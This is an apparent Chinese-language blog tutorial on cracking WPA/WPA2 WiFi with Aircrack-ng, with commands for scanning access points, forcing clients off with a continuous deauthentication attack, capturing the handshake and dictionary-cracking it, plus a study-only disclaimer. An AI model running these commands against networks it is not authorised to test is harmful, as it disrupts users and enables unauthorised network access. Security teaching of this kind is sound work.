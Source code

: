 ```yaml
---
layout: post
title: wifi破解之WPA/WPA2抓包跑包
date: 2017-04-12 21:13:22
comments: true
tags:
	- 安全攻防
	- wifi破解
---
```



### 前言
><font color="#ff0000">&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;**文中提及的部分技术，可能带有一定攻击性，仅供安全学习和教学用途，禁止非法使用！**</font>


### 正文
>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;wifi有很多种方法，这里就说一下Aircrack-ng套件，Aircrack-ng就不多介绍了，一个非常经典的破解套件,也有很多其他的一些软件，水滴，奶瓶，cdlinux等这些就更不多说了，都是基于Aircrack-ng的<!--more-->

##### 扫描ap
>准备一个无限网卡，然后ifconfig可以看到网卡信息,如果看不到是因为无线网卡没启用就ifconfig -a查看全部无线网卡，可以ifconfig wlan0 up来启用。

> ![](/images/pasted-64.jpg)

> 然后扫描一下附近的ap。
> * airodump-ng wlan0
> wlan0是ifconfig的网卡名称，
> 注意：
> 我用的是kali2.0，其他版本的可能需要airmon-ng start wlan0把网卡置于监听模式

> ![](/images/pasted-65.jpg)

>下面的STATION为连接AP的客户端，看BSSID来区分客户端属于哪个AP的
>注意：
>抓包必须要有客户端连接才可以抓包。

##### 抓握手包
>扫描到AP信息后来抓包
> * airodump-ng --bssid EC:88:8F:8A:9C:A0 -w mywifi -c 6 wlan0
>-bssid 要抓的ap的mac
>-w 保存的包名
>-c 信道(就是扫描中的CH)
>注意：
>抓包中需要攻击ap，让客户端断线，客户端重新连接ap后才可以抓到包。
> 可以用aireplay-ng组件来攻击ap
> * aireplay-ng -0 0 -a EC:88:8F:8A:9C:A0 wlan0
> -0 冲突攻击模式  
> -a ap的mac

> ![](/images/pasted-68.jpg)

>抓到握手包后右上角会显示抓到包的客户端mac

> ![](/images/pasted-66.jpg)

##### 跑包

* aircrack-ng -w [字典] [抓到的cap包]

> ![](/images/pasted-67.jpg)